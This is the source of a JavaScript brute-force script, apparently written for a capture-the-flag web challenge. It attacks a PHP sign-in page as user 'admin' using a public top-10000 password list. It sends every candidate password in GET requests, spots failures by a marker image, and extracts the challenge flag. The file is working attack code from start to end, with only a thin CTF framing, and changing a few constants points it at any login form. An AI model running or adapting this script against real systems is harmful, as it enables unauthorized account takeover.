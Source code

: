 /**
 * Streamlined Brute Force Script
 * Shows each tested password with minimal overhead
 */

class StreamlinedBruteForce {
  constructor() {
    // Current timestamp
    this.timestamp = '2025-04-22 20:12:19';
    
    // Target information
    this.baseUrl = window.location.origin || 'http://192.168.247.84';
    this.endpoint = '/index.php?page=signin';
    this.username = 'admin';
    
    // Password list source
    this.passwordListUrl = 'https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Common-Credentials/10-million-password-list-top-10000.txt';
    
    // Known indicator for failed login
    this.failureIndicator = 'WrongAnswer.gif';
    
    // Common passwords to try first
    this.priorityPasswords = [
      //'shadow',  // Known correct password
      'admin', 'password', '123456', 'qwerty', 
      'letmein', 'welcome', 'admin123'
    ];
    
    // Tracking
    this.attempts = 0;
    this.startTime = null;
    this.passwordList = [];
    this.allPasswords = [];
    
    // Results
    this.correctPassword = null;
    this.discoveredFlag = null;
  }
  
  // Simple logging with timestamp and password being tested
  log(password, success = false) {
    const elapsed = this.startTime ? Math.floor((Date.now() - this.startTime) / 1000) : 0;
    const status = success ? '✅' : '❌';
    console.log(`[${this.timestamp}] ${status} Testing: "${password}" (${this.attempts})`);
  }
  
  // Log success with highlight
  logSuccess(message) {
    console.log(`%c[${this.timestamp}] ✅ ${message}`, 'color: green; font-weight: bold');
  }
  
  // Fetch password list
  async fetchPasswordList() {
    console.log(`[${this.timestamp}] Fetching password list...`);
    
    try {
      const response = await fetch(this.passwordListUrl);
      
      if (!response.ok) {
        throw new Error(`Failed to fetch: ${response.status}`);
      }
      
      const text = await response.text();
      this.passwordList = text.split('\n')
        .map(pwd => pwd.trim())
        .filter(pwd => pwd.length > 0);
      
      console.log(`[${this.timestamp}] Fetched ${this.passwordList.length} passwords`);
      
      // Create full list with priority passwords first
      const uniquePasswords = new Set([
        ...this.priorityPasswords, 
        ...this.passwordList.filter(pwd => !this.priorityPasswords.includes(pwd))
      ]);
      
      this.allPasswords = [...uniquePasswords];
      
      return true;
    } catch (error) {
      console.log(`[${this.timestamp}] Error fetching passwords: ${error.message}`);
      this.allPasswords = [...this.priorityPasswords];
      return false;
    }
  }
  
  // Format login URL
  formatLoginUrl(password) {
    return `${this.baseUrl}${this.endpoint}&username=${
      encodeURIComponent(this.username)}&password=${
      encodeURIComponent(password)}&Login=Login`;
  }
  
  // Extract flag from HTML
  extractFlag(html) {
    const flagMatch = html.match(/<h2[^>]*>The flag is : ([a-f0-9]+)<\/h2>/i);
    if (flagMatch && flagMatch[1]) {
      return flagMatch[1];
    }
    
    const hexMatch = html.match(/\b([a-f0-9]{32,64})\b/i);
    if (hexMatch && hexMatch[1]) {
      return hexMatch[1];
    }
    
    return null;
  }
  
  // Try a single password
  async tryPassword(password) {
    this.attempts++;
    
    try {
      const url = this.formatLoginUrl(password);
      
      // Log every password attempt
      this.log(password);
      
      const response = await fetch(url);
      const html = await response.text();
      
      // Check for success
      if (!html.includes(this.failureIndicator)) {
        this.logSuccess(`SUCCESS! Password found: "${password}"`);
        this.correctPassword = password;
        
        // Extract flag
        const flag = this.extractFlag(html);
        if (flag) {
          this.discoveredFlag = flag;
          this.logSuccess(`FLAG DISCOVERED: ${flag}`);
          this.displayFlagBox(flag);
        }
        
        return {success: true, html};
      }
      
      return {success: false};
    } catch (error) {
      console.log(`[${this.timestamp}] ⚠️ Error testing "${password}": ${error.message}`);
      return {success: false, error: true};
    }
  }
  
  // Display flag in a box
  displayFlagBox(flag) {
    console.log(`
    ┌───────────────────────────────────────────────────┐
    │                                                   │
    │  🚩 FLAG: ${flag}  │
    │                                                   │
    └───────────────────────────────────────────────────┘
    `);
  }
  
  // Main execution method
  async execute() {
    console.log(`[${this.timestamp}] Starting brute force on ${this.baseUrl}`);
    console.log(`[${this.timestamp}] Target username: ${this.username}`);
    
    // Fetch password list
    await this.fetchPasswordList();
    
    this.startTime = Date.now();
    
    // Process passwords at maximum speed
    for (const password of this.allPasswords) {
      // Try the password
      const result = await this.tryPassword(password);
      
      // Break on success
      if (result.success) {
        break;
      }
    }
    
    // Final report
    const elapsed = Math.floor((Date.now() - this.startTime) / 1000);
    const elapsedStr = elapsed < 60 ? 
      `${elapsed} seconds` : 
      `${Math.floor(elapsed / 60)} minutes, ${elapsed % 60} seconds`;
    
    if (this.correctPassword) {
      console.log(`
      ===== BRUTE FORCE SUCCESSFUL =====
      • Target: ${this.baseUrl}
      • Username: ${this.username}
      • Password: ${this.correctPassword}
      • Flag: ${this.discoveredFlag || 'Not found'}
      • Attempts: ${this.attempts}
      • Time taken: ${elapsedStr}
      ===============================
      `);
      
      return {
        success: true,
        password: this.correctPassword,
        flag: this.discoveredFlag,
        attempts: this.attempts
      };
    } else {
      console.log(`
      ===== BRUTE FORCE INCOMPLETE =====
      • Target: ${this.baseUrl}
      • Username: ${this.username}
      • Attempts: ${this.attempts}
      • Time taken: ${elapsedStr}
      • Status: No valid password found
      ===============================
      `);
      
      return {
        success: false,
        attempts: this.attempts
      };
    }
  }
}

// Create and execute
const bruteForce = new StreamlinedBruteForce();

// Start and store results for reference
window.bruteForceResult = bruteForce.execute().then(result => {
  console.log('Brute force completed!');
  return result;
});

// Direct password test utility
window.testPassword = async (password) => {
  const tester = new StreamlinedBruteForce();
  return await tester.tryPassword(password);
};

console.log('Brute force attack started! Showing all password attempts...');